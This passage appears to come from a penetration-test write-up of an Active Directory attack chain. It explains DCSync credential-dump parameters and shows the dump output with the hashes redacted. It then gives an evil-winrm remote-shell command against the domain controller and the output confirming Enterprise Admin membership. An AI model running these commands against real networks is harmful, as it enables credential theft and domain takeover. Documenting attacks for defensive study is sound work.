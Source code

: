 The parameters in this command are:

- `-dc-ip 192.168.0.206`: Specifies the IP address of the domain controller
- `-just-dc`: Only extract domain credentials (not local SAM hashes)
- `CORP.LOCAL/ATTACKER-PC02\$:"s0m3p455w0rd"`: Authentication using our machine account
- `@192.168.0.206`: Target domain controller

The output revealed complete access to domain credentials:

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
CORP.local\Administrator:500:HASH:HASH:::
Guest:501:HASH:HASH:::
krbtgt:502:HASH:HASH:::
CORP\user1:1126:HASH:HASH:::
[MANY MORE ACCOUNTS]
```

Each hash contains the username and RID, followed by the LM hash (typically empty in modern systems) and the NT hash. The krbtgt hash is gold for creating Golden Tickets, while the Administrator hash gives immediate access to domain controllers and other systems.

### Confirming Enterprise Admin Access

To verify the success of the attack, I used Evil-WinRM to establish a remote PowerShell session to a domain controller:

```bash
evil-winrm -i 192.168.0.206 -u 'ATTACKER-PC02$' -p 's0m3p455w0rd'
```

Evil-WinRM leverages Windows Remote Management to give you a remote shell on Windows systems. It runs over standard ports often allowed through firewalls (5985/5986), provides a fully interactive PowerShell session, and includes convenient features for file transfers and script execution. Once connected, I confirmed our elevated privileges:

```bash
*Evil-WinRM* PS C:\Users\ATTACKER-PC02$\Documents> net group "Enterprise Admins" /domain
Group name     Enterprise Admins
Comment        Designated administrators of the enterprise

Members

-------------------------------------------------------------------------------
Administrator            ATTACKER-PC02$          domainadmin
sql_admin                svcaccount
The command completed successfully.
```

This completed the attack chain - from having no credentials, I was able to obtain complete control over the Active Directory forest by exploiting a series of misconfigurations.

## Machine Account Quota: The Critical Misconfiguration
